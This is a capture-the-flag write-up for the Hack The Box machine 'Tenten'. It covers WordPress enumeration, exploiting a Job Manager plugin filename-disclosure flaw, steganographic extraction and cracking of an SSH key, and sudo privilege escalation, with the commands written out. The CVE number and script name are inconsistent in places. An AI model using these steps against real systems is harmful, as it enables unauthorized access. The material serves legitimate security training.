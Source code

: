 # Tenten

This is the write-up for the box Tenten that got retired at the 16th July 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.10    tenten.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tenten.nmap 10.10.10.10
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see a default WordPress page. 
We can run **Wpscan** and **Nikto** to find some information and vulnerabilities against this service.
```markdown
wpscan --url http://10.10.10.10 --enumerate
```

We now know that this is WordPress version 4.7.3 from march 2017 and we get a username calld _takis_.
There is the plugin _Job Manager 0.7.25_ installed that has the vulnerability [CVE-2015-6668](https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/) that we are going to exploit.

By clicking this link we get forwarded to **index.php/jobs**.

![Job Listing Link](https://kyuu-ji.github.io/htb-write-up/tenten/tenten_jobs-1.png)

Clicking on the button to apply to the job forwards us to **index.php/jobs/apply/8**.
This number tends to be the name a row ID in the WordPress table.

![Apply Now Link](https://kyuu-ji.github.io/htb-write-up/tenten/tenten_jobs-2.png)

By iterating through this number we get different pages for every number.
- 1: Hello world!
- 2: Sample Page
- 3: Auto Draft
- 4: _Empty_
- 5: Jobs Listing
- 6: Job Application
- 7: Register
- 8: Pen Tester
- 9: _Empty_
- 10: Application
- 11: cube
- 12: Application
- 13: HackerAccessGranted
- 14: _Empty_

Every number after 13 is just empty so we probably reached the end.
If we "apply" to the job and upload a file we should find that file by doing this procedure again.

![Uploading a file](https://kyuu-ji.github.io/htb-write-up/tenten/tenten_jobs-3.png)

When we browse to the 15th ID we see that there is now a Title called **test** that was our input.
WordPress saves uploaded files in the directory **/wp-content/uploads/current_year/current_month/filename.extension**.

So in my case the file I uploaded is in:
> /wp-content/uploads/2019/11/test.jpg

Now we got Arbitrary File Upload but the application does not allow PHP files.
One interesting title is ID 13 with the name **HackerAccessGranted** whose files we should check.

We will use the Python script from the CVE-2019-6668 and modify the following lines to our needs:
```python
# (...)
for year in range(2017,2019):  
    for i in range(3,13):
        for extension in {'jpg','jpeg','png'}:
# (...)
```

After that we can execute the exploit:
```markdown
python CVE-2019-6668.py
```
```markdown
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  

Enter a vulnerable website: http://10.10.10.10
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

This finds a JPG file from the mysterious user that we download to analyze further.

### Analyzing the image file

This is kind of a guessing game but there is data hidden in this file via **Steganography**.
We will use **Steghide** to extract the data from there without putting any password:
```markdown
steghide extract -sf HackerAccessGranted.jpg
```

This extracts a file called **id_rsa** which is a RSA-encrypted private key to use with SSH.

#### Decrypting the key

On the first few lines we can see that this key is encrypted with _AES-128-CBC_:
```markdown
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C
(...)
```

By using [sshng2john](https://github.com/stricture/hashstack-server-plugin-jtr/blob/master/scrapers/sshng2john.py) we bring this to a format that is crackable:
```markdown
python sshng2john.py id_rsa
```

Now using the password cracking tool **JohnTheRipper** to crack this:
```markdown
john id_rsa.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while we cracked the password for this key:
> superpassword

## Checking SSH (Port 22)

We change the permissions of the key to _600_ as it should be and can now login with SSH on the box:
```markdown
chmod 600 id_rsa

ssh -i id_rsa takis@10.10.10.10
```

We try it with the user _takis_ because that is the only user we enumerated and we are logged in.

## Privilege Escalation

When we look at the commands that _takis_ can execute as root via sudo, we see the file **/bin/fuckin**.
Analyzing it, it executes arguments:
```markdown
cat /bin/fuckin

# Output
#!/bin/bash
$1 $2 $3 $4
```

So if we run this with `sudo` and give it the argument `bash` we should start a Bourne-Shell as root:
```markdown
sudo /bin/fucking bash
```

It does start a session with root and we can read the flag!
